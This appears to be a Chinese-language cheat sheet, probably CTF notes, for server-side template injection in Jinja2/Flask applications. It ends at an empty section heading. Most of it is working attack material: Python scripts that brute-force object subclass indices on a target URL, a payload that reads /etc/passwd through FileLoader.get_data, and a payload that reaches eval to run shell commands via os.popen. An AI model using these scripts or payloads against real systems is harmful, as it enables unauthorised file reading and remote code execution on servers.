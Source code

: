 ### 1._frozen_importlib_external.FileLoader

文件读取类名：_frozen_importlib_external.FileLoader

查找子类脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib_external.FileLoader' in str(response.content):
                print(i)
    except:
        pass

```

找到_frozen_importlib_external.FileLoader类名的位置

```php
{{"".__class__.__base__.__subclasses__()[79]["get_data"](0,"/etc/passwd")}}

```

### 2.eval

查找eval脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'eval' in str(response.content):
                print(i)
    except:
        pass
```

```php
{{"".__class__.__base__.__subclasses__()[473].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```



### 3.os
